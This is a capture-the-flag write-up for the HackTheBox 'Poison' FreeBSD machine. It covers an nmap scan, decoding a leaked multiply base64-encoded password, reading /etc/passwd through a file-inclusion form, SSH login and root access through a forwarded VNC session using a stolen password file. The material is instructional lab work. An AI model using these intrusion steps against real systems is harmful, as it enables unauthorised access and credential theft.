

# Hackthebox - Poison

- FreeBsd (Unix)



- [Box on HTB](https://app.hackthebox.com/machines/132)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn 10.10.10.84
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 19:49 EDT
Nmap scan report for 10.10.10.84
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/26%OT=22%CT=1%CU=42712%PV=Y%DS=2%DC=I%G=Y%TM=623FA6B
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=RI%TS=21)O
OS:PS(O1=M505NW6ST11%O2=M505NW6ST11%O3=M280NW6NNT11%O4=M505NW6ST11%O5=M218N
OS:W6ST11%O6=M109ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)E
OS:CN(R=Y%DF=Y%T=40%W=FFFF%O=M505NW6SLL%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=FFFF%S=O%A=S+%F=AS%O=M109NW6ST11%R
OS:D=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.11 seconds
```

## Port 80

- If we go on the website we have this page  


- The listfiles.php seems interesting  
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```
- Let's have a look at the password backup
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```
It says the password has been encoded at list 13 times.  
Let's go to cyberchef and try to add the recipe "frombase64" 13 times or more until it gets decrypted.  
And it works!!  


- On the website using the form we can show /etc/passwd
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

## Initial foothold

We can use the password to connect with ssh. and the user charix because it is less likely to work with root.
```
ssh charix@10.10.10.84
```
And it works
- We can get the user flag now `cat user.txt`
- when we list the files we have a secret.zip we can take in our machine and try to unzip it with the password 
```
┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# unzip secret.zip                                                                                                                                                                                      82 ⨯
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret       
 ┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# cat secret            
��[|Ֆz!                                                                                                                                                                                                               
┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# file secret        
secret: Non-ISO extended-ASCII text, with no line terminators
```
The file is not readable using cat

## Privesc

- With `ps -aux` we see a vnc process `root   529   0.0  0.9  23620  8868 v0- I    00:08    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.`
- With `ps -auxww` we get more information we see that it is running on port 5901.
- We need to use ssh port forwarding to interact more easily with this process `ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84` I should be able to access vnc with my port 5901
- With some research on vnc it seems like the password file we found in the zip can be used to access the process `vncviewer 127.0.0.1:5901 -passwd secret`
- We get a root shell and can have the flag

## Resources

**Rana's writeup is very detailed because she shows 3 different way to gain initial foothold**  
 Writeup Poison - Rana Khalil - Gitbook 
